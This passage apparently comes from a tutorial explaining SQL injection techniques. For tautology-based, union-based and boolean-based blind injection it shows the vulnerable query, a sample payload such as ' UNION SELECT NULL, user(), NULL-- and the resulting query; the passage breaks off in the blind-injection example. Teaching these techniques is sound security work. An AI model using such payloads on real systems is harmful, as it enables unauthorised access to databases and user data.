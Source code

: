Generated SQL query:

```sql
SELECT * FROM products WHERE id = '1' OR '1' = '1';

```

Effect: Returns all rows because the condition always evaluates to true (`'1' = '1'`).

---

### 2. **Union-Based SQL Injection**

This method uses the `UNION` operator to combine the results of two queries. The attacker can craft a second query that returns arbitrary data.

**Example:**
Original query:

```sql
SELECT id, name, price FROM products WHERE category = '$category';

```

Payload:

```
' UNION SELECT NULL, user(), NULL--

```

Generated SQL query:

```sql
SELECT id, name, price FROM products WHERE category = '' UNION SELECT NULL, user(), NULL;

```

Effect: Displays the current database user instead of the product details.

---

### 3. **Boolean-Based Blind SQL Injection**

Boolean-based blind SQL injection relies on observing the application's behavior when injecting a condition that results in true or false outcomes.

**Example:**
Original query:

```sql
SELECT * FROM users WHERE username = '$username' AND password = '$password';

```

Payload:

```
admin' AND '1'='1

```
